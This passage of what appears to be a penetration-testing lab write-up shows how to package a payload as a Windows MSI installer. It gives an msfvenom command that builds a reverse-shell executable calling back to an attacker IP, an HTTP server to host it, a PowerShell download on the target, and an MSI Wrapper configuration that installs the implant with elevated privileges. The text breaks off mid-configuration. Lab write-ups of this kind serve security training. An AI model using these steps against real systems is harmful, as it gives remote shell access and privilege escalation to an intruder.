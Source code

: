 {{< image src="/images/posts/msi-wrapper-4.png" caption="MSI Wrapper " src_s="/images/posts/msi-wrapper-4.png" src_l="/images/posts/msi-wrapper-4.png" >}}

Once it is completed, click on `Finish`:

{{< image src="/images/posts/msi-wrapper-5.png" caption="MSI Wrapper " src_s="/images/posts/msi-wrapper-5.png" src_l="/images/posts/msi-wrapper-5.png" >}}

Optionally, we could create a desktop shortcut or pin to the taskbar:

{{< image src="/images/posts/msi-wrapper-6.png" caption="MSI Wrapper " src_s="/images/posts/msi-wrapper-6.png" src_l="/images/posts/msi-wrapper-6.png" >}}

Generate an executable reverse shell:

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.130 LPORT=443 -f exe -o implant.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: implant.exe
```

Setup an HTTP listener:

```bash
❯ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.119.129 - - [06/Mar/2022 17:54:06] "GET /implant.exe HTTP/1.1" 200 -
```

Download the file with powershell:

```powershell
PS C:\Tools> wget 192.168.119.130/implant.exe -O implant.exe
```

This will be the MSI wrapper configuration file `msi_template.xml`:

```xml
<MsiWrapper>
  <Installer>
    <IconFile Detect="executable" Value="" />
    <Output FileName="C:\Tools\implant.msi" />
    <InstallPrivileges Value="Elevated" />
    <PerUser Value="yes" />
    <ElevateExecutable Value="always" />
    <UpgradeCode Value="{55F46570-1C98-4098-9191-18B383E567D3}" />
    <ProductId Value="" />
    <Registration Value="None" />
    <Manufacturer Detect="" Value="Holo Industries" />
    <ProductVersion Detect="executable" Value="0.0.0.0" />
    <ProductName Detect="" Value="Holo" />
    <Comments Detect="executable" Value="" />
    <Contact Detect="" Value="" />
    <HelpLink Detect="" Value="" />
    <UpdateLink Detect="" Value="" />
    <AboutLink Detect="" Value="" />
  </Installer>
  <WrappedInstaller>
    <Executable FileName="C:\Tools\implant.exe" SuccessCodes="" Impersonate="no" IncludeFiles="no" CompressionLevel="Max" />
    <ApplicationId Value="" />
    <Install>
      <Arguments Value="">
        <UILevelNone Value="" />
        <UILevelBasic Value="" />
```